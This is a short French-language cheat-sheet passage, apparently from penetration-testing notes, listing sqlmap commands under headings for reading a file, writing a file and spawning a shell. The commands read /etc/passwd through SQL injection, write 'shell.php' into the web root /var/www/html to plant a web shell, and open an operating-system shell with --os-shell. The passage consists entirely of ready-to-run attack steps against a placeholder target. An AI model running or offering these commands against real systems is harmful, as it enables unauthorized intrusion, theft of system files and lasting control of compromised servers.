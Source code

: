 ```
sqlmap <curl_request> --batch --file-read "/etc/passwd"
```

### Ecrire un fichier

```
sqlmap <curl_request> --batch --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

### Spawn un #shell

```
sqlmap <curl_request> --batch --os-shell
```
